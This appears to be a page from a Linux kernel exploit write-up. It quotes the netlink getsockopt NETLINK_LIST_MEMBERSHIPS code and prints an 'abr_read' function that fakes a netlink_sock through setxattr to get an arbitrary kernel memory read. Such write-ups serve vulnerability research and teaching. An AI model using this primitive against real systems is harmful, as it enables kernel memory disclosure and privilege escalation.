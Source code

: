 ```c
		return -EINVAL;

	switch (optname) {
  ...
	case NETLINK_LIST_MEMBERSHIPS: {
		int pos, idx, shift, err = 0;

		netlink_lock_table();
		for (pos = 0; pos * 8 < nlk->ngroups; pos += sizeof(u32)) {
			if (len - pos < sizeof(u32))
				break;

			idx = pos / sizeof(unsigned long);
			shift = (pos % sizeof(unsigned long)) * 8;
			if (put_user((u32)(nlk->groups[idx] >> shift),
				     (u32 __user *)(optval + pos))) {
				err = -EFAULT;
				break;
			}
		}
		if (put_user(ALIGN(BITS_TO_BYTES(nlk->ngroups), sizeof(u32)), optlen))
			err = -EFAULT;
		netlink_unlock_table();
		return err;
	}
  ...
  }
}
```

- `nlk->ngroups`: read size in bits.
- `nlk->groups`: address to read from.

- Build primitive [exploit.c#L502](./exploit.c#L502):

```c
void *abr_read(uint64_t addr, int bytes)
{
  if (bytes % sizeof(uint32_t) != 0)
    bytes += sizeof(uint32_t) - (bytes % sizeof(uint32_t));

  void *result = malloc(bytes);
  if (!result) {
    perror("malloc");
    return NULL;
  }

  uint8_t fake_netlink_sock_buf[1024] = {};
  struct netlink_sock *nlk = (struct netlink_sock*)fake_netlink_sock_buf; 
  *(uint64_t*)(nlk->buf + GROUPS_OFFSET_FROM_STRUCT_NETLINK_SOCK) = addr;
  *(uint32_t*)(nlk->buf + NGROUPS_OFFSET_FROM_STRUCT_NETLINK_SOCK) = bytes * 8;
  *(uint64_t*)(nlk->buf + SK_SECURITY_OFFSET_FROM_NETLINK_SOCK) = netlink_sock_sk_security_addr;

  get_full_timesplice();
  removexattr(FAKE_NETLINK_SOCK_FILE_PATH, "security.fake_netlink_sock");
  setxattr(FAKE_NETLINK_SOCK_FILE_PATH, "security.fake_netlink_sock", fake_netlink_sock_buf, 1024, 0);
  getsockopt(primitive_netlink_socket_fd, SOL_NETLINK, NETLINK_LIST_MEMBERSHIPS, result, &bytes);
  return result;
}
```
